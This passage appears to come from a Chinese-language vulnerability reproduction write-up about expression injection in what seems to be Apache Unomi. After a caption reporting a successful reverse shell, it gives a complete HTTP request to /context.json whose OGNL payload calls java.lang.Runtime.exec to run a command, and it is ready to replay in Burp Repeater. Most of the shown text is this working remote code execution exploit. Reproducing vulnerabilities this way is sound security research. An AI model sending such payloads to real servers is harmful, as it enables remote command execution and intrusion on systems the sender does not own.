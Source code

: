 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicW2NWMvibicjIzhfeR8KWicQdFJQe6BGWdNYamcdTKWZwrHttO2bh1a4gmw/640?wx_fmt=png)

成功反弹 shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWovEiclZO0L1wNNKBVavVIMibBVKnYkPSmibUrceqloiaVhIZflQcUK14oQ/640?wx_fmt=png)

**上面使用的是通过 MVEL 表达式执行任意命令，以下使用 OGNL 表达式执行任意命令**

在漏洞首页抓取请求包然后发送到 Repeater 模块中构造数据包，构造的 poc 为

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
    "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")). 
 (#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]). 
 (#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? 
 #this.name.equals(\"exec\")}.{? #this.getParameters() 
 [0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]). 
 (#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
    ],
    "sessionId":"sample"
}
```
